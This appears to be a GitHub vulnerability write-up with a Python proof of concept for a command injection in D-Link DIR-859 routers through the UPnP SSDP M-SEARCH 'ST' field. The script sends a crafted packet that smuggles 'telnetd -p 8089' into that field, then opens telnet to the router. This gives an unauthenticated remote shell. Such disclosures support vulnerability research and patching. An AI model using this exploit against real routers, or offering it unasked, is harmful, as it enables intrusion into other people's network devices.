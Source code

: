 # dir-859
Exploit Author: yangchunyuwhu@aliyun.com

Vendor: D-Link

Firmware: DIR-859_REVA_FIRMWARE_PATCH_1.06B01.zip

An issue was discovered on D-Link DIR-859 devices. Universal Plug and Play (UPnP) is enabled by default on port 1900. allowing an attacker to inject arbitrary command to the UPnP via a crafted M-SEARCH packet.An attacker can perform command injection by injecting a payload into the "Search Target" (ST) field of an SSDP M-SEARCH discovery packet.

# poc
from socket import *
from os import *
from time import *
 
payload = b'M-SEARCH * HTTP/1.1\r\n'
payload += b'HOST:localhost:1900\r\n'
payload += b'ST:urn:device:;telnetd -p 8089\r\n\r\n'
 
s = socket(AF_INET, SOCK_DGRAM, 0)
s.sendto(payload, ("192.168.0.1", 1900))
s.close()
 
sleep(1)
system("telnet 192.168.0.1 8089")
